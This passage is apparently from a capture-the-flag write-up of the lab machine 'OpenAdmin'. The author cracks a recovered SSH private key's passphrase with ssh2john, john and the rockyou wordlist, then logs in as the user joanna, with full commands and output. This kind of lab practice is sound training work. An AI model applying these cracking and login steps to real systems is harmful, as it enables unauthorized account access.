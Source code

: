 And there is the SSH private key for `joanna`. Let's save this to a file and SSH in as `joanna`.

```bash
$ ssh joanna@10.10.10.171 -i joanna.ssh.privatekey
Enter passphrase for key 'joanna.ssh.privatekey':
```

Ok. Maybe not so easy. Let's see if `john` can crack this for us:

```bash
$ ssh2john.py joanna.ssh.privatekey > ssh2john.joanna.privkey
$ john ssh2john.joanna.privkey -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna.ssh.privatekey)
1g 0:00:00:03 DONE (2020-04-06 18:51) 0.2724g/s 3907Kp/s 3907Kc/s 3907KC/s     ciocolatax..clarus
Session completed
```

So the password to the `joanna` private key seems to be `bloodninjas`.

```bash
$ ssh joanna@10.10.10.171 -i joanna.ssh.privatekey
Enter passphrase for key 'joanna.ssh.privatekey':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr  6 23:57:14 UTC 2020

  System load:  1.21              Processes:             157
  Usage of /:   50.5% of 7.81GB   Users logged in:       0
  Memory usage: 35%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Apr  6 15:13:20 2020 from 10.10.14.30
joanna@openadmin:~$ wc user.txt
 1  1 33 user.txt
```
